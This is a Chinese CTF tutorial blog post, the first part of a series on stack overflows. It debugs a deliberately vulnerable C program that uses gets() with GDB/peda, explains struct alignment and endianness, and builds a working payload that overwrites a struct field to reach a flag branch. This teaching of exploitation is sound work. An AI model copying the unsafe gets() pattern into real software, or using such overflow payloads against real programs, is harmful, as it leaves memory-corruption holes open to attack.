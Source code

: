 ```yaml
---
id: 776
layout: post
title: '二进制安全之栈溢出（一）'
date: 2017-10-20 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


首先假设已经有了 C 语言的基础知识，还有汇编和内存栈结构。

以后不特殊说明的话，环境都是 `Ubuntu 16.04.2 x86-64` `gcc version 5.4.0` `GDB version 7.11.1`。

## 安装 peda

peda 是 GDB 的一个插件，提供了很多方便我们调试和漏洞利用的功能。源码和安装方式在 [https://github.com/longld/peda](https://github.com/longld/peda)

下面的代码我也忘了来源了，反正是充满了暴力气息的一段代码。

```clike
#include <stdio.h>

struct Student {
    char name[64];
    char s;
    int birth;
};

int main(int argc, char **argv) {
    struct Student student;
    student.s = 'c';
    printf("What's Your Birth?\n");
    scanf("%d", &student.birth);
    while (getchar() != '\n') ;
    if (student.birth == 1926) {
        printf("You Cannot Born In 1926!\n");
        return 0;
    }
    printf("What's Your Name?\n");
    gets(student.name);
    printf("You Are Born In %d\n", student.birth);
    if (student.birth == 1926) {
        printf("You Shall Have The Flag.\n");
        system("cat flag");
    } else {
        printf("You Are Naive.\n");
        printf("You Spend One Second Here.\n");
    }
    return 0;
}

```

`gcc -g -O0 -o vuln main.c` 编译

## GDB调试指令

```
gdb ./vuln
```

如果成功安装了peda，就可以看到 `gdb-peda$` 的提示了。

常用的指令就不多说了，比如 `list(l)` `break(b)` 等。

通过 `l` 浏览了代码，就可以使用 `b $line_number` 的方式下断点了，比如想让代码停在 14 行，然后看 `student` 变量的内存分布，那我们可以输入`b 14`。

通过 `info breakpoints` 可以看到所有的断点。

`r` 指令是运行这个调试程序，然后看到进程成功的停在了我们的断点处。

```
gdb-peda$ r

...

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe568) at main.c:14
14	    printf("What's Your Birth?\n");
```

至于上面的一堆汇编输出，我们后面再说。

## 万物皆可print

下断点就是为了查看 `student` 结构体的内存分布，C 语言里面很多函数在这里也是类似的用法的。

```
gdb-peda$ p sizeof(student)
$1 = 0x48
gdb-peda$ p sizeof(student.birth)
$2 = 0x4
gdb-peda$ p sizeof(student.name)
$3 = 0x40
gdb-peda$ p sizeof(student.s)
$4 = 0x1

gdb-peda$ p &student
$5 = (struct Student *) 0x7fffffffe2f0
gdb-peda$ p &(student.name)
$6 = (char (*)[64]) 0x7fffffffe2f0
gdb-peda$ p &(student.s)
$7 = 0x7fffffffe330 "c\344\377\377\205\a"
gdb-peda$ p &(student.birth)
$8 = (int *) 0x7fffffffe334
```

可以看到 `student` 结构体是 72 个字节大小，`student` 结构体和 `student.name` 起始内存地址都是 `0x7fffffffe2f0`，因为在内存中本来就没有结构体这种东西。

至于为什么是 72 个字节，而不是 `4+64+1=69` 个字节呢？

那是因为 `s` 成员是 `char` 类型的，1 个字节，如果接下来就存储 `birth`，那么这就是一个跨边界的数据，计算机可能需要更多的指令才能读取，为了加快内存访问速度进行了内存对齐操作，把 `s` 所在的内存后面空了 3 个字节，关于内存对齐，可以参考 [https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing](https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing)

## 查看指定的内存地址的数据

这里使用的是 `x` 指令，它有三个可选参数 `x/<n/f/u> $addr`

`n` 是一个正整数，表示需要显示的内存单元的个数，也就是说从当前地址向后显示几个内存单元的内容，一个内存单元的大小由后面的 `u` 定义。

`f` 表示显示的格式，比如 `x` 按十六进制格式显示变量, `d` 是按十进制格式显示变量。

`u` 表示从当前地址往后请求的字节数，如果不指定的话，GDB 默认是 4 个 bytes。`u`参数可以用下面的字符来代替，`b` 表示单字节，`h` 表示双字节，`w` 表示四字节，`g` 表示八字节。当我们指定了字节长度后，GDB会从指内存定的内存地址开始，读写指定字节，并把其当作一个值取出来。

为了打印 `student` 结构体的内存分布，先在第 21 行下断点，然后让进程继续执行直到下一个断点。

```
gdb-peda$ b 21
Breakpoint 2 at 0x40079d: file main.c, line 21.
gdb-peda$ c
Continuing.
What's Your Name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

...

Legend: code, data, rodata, value

Breakpoint 2, main (argc=0x1, argv=0x7fffffffe428) at main.c:21
21	    printf("You Are Born In %d\n", student.birth);
```

然后就可以

```
gdb-peda$ x/72xb &student
0x7fffffffe2f0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe2f8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe300:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe308:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe310:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe318:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe320:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe328:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x00
0x7fffffffe330:	0x63	0xe4	0xff	0xff	0x85	0x07	0x00	0x00
```

前 64 个字节就是字母 `A` 的 ASCII `0x41`，然后是 `0x00` 字符串结尾，然后是代码中写死的 `c` 字母 `0x63`，然后跳过三个字节之后还剩四个字节，就是一个 `int` 数字。

从最后 4 个字节分布可以看出来，对于 `int 0x00000785` 这种多字节变量，它们的低字节在内存低地址处，高字节在内存高地址处，这种分布方式成为小端序，还有的机器是反过来的，叫做大端序。对于 `char` 这种单字节变量和 `student.name` 这种数组来说，没有大小端的问题，

## 分析内存结构

这里问题就很清晰了，`student.name` 数组没有限制长度，如果我们输入超过 63 位的话，多出来的内容将覆盖 `student.s` 的内存（注意字符串的结尾），如果输入再长的话，就会覆盖 `student.birth` 的内存空间。

所以我们可以确定 `student.name` 的输入长度是 70 字节，前面 68 字节可以是任意构造，只要认真构造最后两个字节，让 `student.birth` 的内存为 `0x00000786` 就可以，所以我们构造的payload就是`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x07`

然后这种特殊的字符我们都可以使用 Python 输入到文件中，然后重定向输入的

```
➜  Desktop python -c "print '1234\n' + 'A' * 68 + '\x86\x07\n'" > 1.in
➜  Desktop ./vuln < 1.in
What's Your Birth?
What's Your Name?
You Are Born In 1926
You Shall Have Flag.
THIS_IS_FLAG
```

GDB 也可以使用这种重定向输入的

```
gdb-peda$ b 21
Breakpoint 1 at 0x40079d: file main.c, line 21.
gdb-peda$ r < 1.in
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < 1.in
What's Your Birth?
What's Your Name?

...

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe428) at main.c:21
21	    printf("You Are Born In %d\n", student.birth);
gdb-peda$ gdb-peda$ x/72xb &student
Undefined command: "gdb-peda$".  Try "help".
gdb-peda$ x/72xb &student
0x7fffffffe2f0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe2f8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe300:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe308:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe310:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe318:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe320:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe328:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe330:	0x41	0x41	0x41	0x41	0x86	0x07	0x00	0x00
```

可以看到我们控制了 `student` 的内存，让代码进入了指定的分支。


